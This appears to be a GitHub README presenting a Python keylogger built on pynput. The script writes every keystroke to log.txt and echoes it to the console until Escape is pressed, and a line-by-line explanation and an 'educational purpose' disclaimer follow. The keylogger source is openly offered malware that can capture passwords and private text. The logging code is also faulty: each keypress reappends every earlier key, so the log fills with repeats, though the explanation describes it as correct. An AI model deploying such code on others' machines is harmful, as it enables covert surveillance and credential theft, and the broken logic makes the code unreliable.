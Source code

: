 # Keylogger

## Keylogger using Python.

This keylogger essentially tracks keyboard events, logging pressed keys to a file and providing basic feedback in the console. It stops listening for events when the Escape key is pressed.

```python
import pynput
from pynput.keyboard import Key, Listener

keys = []

def on_press(key):
    keys.append(key)
    write_file(keys)

    try:
        print('Alphanumeric key {0} pressed'.format(key.char))
    except AttributeError:
        print('Special key {0} pressed'.format(key))

def write_file(keys):
    with open('log.txt', 'a') as f:
        for key in keys:
            k = str(key).replace("'", "")
            if k.find('space') > 0:
                f.write(' ')
            elif k.find('Key') == -1:
                f.write(k)
            
def on_release(key):
    print('{0} released'.format(key))
    if key == Key.esc:
        # Stop listener
        return False

with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

## Here's a detailed explanation of the code:

- Import:
    - `import pynput`: Imports the pynput library, providing tools for controlling and monitoring input devices.
    
    - `from pynput.keyboard import Key, Listener`: Specifically imports the Key class for representing keys on the keyboard and the Listener class for monitoring keyboard events.

- Variables:
    - `keys = []`: Initializes an empty list named keys to store pressed keys.

- Functions:

    - `on_press(key)`: This function is called when a key is pressed:
        - It appends the pressed key to the keys list.
        - It calls the write_file function to log the pressed keys to a file.
        - It tries to print the character of the key using key. char. If it's not an alphanumeric key (e.g., Control, Shift), it prints a message about the special key instead.
    - `write_file(keys)`: This function writes the keys in the keys list to a file named log.txt:
        - It opens the file in append mode ('a') to add new keys without overwriting existing content.
        - It iterates through each key in the list:
            - It formats the key for logging by removing single quotes and handling space keys.
            - It writes the formatted key to the file, excluding keys represented as Key.<name> (e.g., Key.enter).
    - `on_release(key)`: This function is called when a key is released:
        - It prints a message indicating the released key.
        - If the released key is the Escape key (Key.esc), it returns False to stop the listener.

- Main execution:

    - `with Listener(on_press=on_press, on_release=on_release) as listener:`: Creates a keyboard listener object and sets the on_press and on_release functions as callbacks for corresponding events.
    - `listener.join()`: Starts the listener and keeps it running until it's stopped (e.g., by pressing Escape).
 
> [!WARNING]
> This is only for educational purpose.
